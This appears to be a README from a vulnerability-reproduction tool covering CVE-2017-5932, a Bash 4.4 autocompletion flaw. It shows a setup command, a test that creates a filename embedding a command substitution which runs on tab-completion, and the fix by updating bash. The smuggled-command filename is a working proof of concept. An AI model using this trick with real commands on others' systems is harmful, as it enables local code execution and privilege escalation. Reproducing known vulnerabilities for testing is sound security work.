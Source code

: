 # CVE-2017-5932

### Description
The path autocompletion feature in Bash 4.4 allows local users to gain privileges via a crafted filename starting with a " (double quote) character and a command substitution metacharacter.
### Command to run
```shell
python -m decret --number 2017-5932 --directory bash 
```

### Simple testing method

```shell
su toto
cd
ls # no files
touch '" $(touch it_works)'
rm \" $(touch it_works) ^C #Type auto-completion key after " and then cancel 
ls
```
The file `it_works` is created.

If bash is updated :
```shell
apt-get install bash
```
The vulnerability is fixed.

